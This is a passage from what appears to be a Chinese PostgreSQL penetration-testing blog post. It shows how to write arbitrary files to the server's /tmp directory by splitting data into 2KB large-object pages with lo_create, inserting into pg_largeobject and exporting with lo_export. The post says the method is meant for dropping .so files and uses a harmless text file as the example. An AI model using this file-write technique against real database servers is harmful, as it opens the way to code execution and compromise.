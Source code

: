 
[![](assets/1710209150-bb030d60e2d7d3b481314d837fa32b58.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/33.png)

如果内容过多，那么首先创建一个 OID 作为写入的对象，然后通过 0,1,2,3… 分片上传但是对象都为 12345 最后导出到 /tmp 目录下，收尾删除 OID

写的文件每一页不能超过 2KB，所以我们要把数据分段，这里我就不拿 .so 文件为例了，就随便写个 txt 举个例子

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```sql<br>SELECT lo_create(12345);<br>INSERT INTO pg_largeobject VALUES (12345, 0, decode('6666', 'hex'));<br>INSERT INTO pg_largeobject VALUES (12345, 1, decode('666666', 'hex'));<br>INSERT INTO pg_largeobject VALUES (12345, 2, decode('6666', 'hex'));<br>INSERT INTO pg_largeobject VALUES (12345, 3, decode('663078', 'hex'));<br>SELECT lo_export(12345, '/tmp/ffffffff0x.txt');<br>SELECT lo_unlink(12345);<br>``` |

[![](assets/1710209150-8861cee5343d497693d761bcf710cc61.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/11.png)

[![](assets/1710209150-ddead55c4bb04b4c17d9020e468f653c.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/12.png)
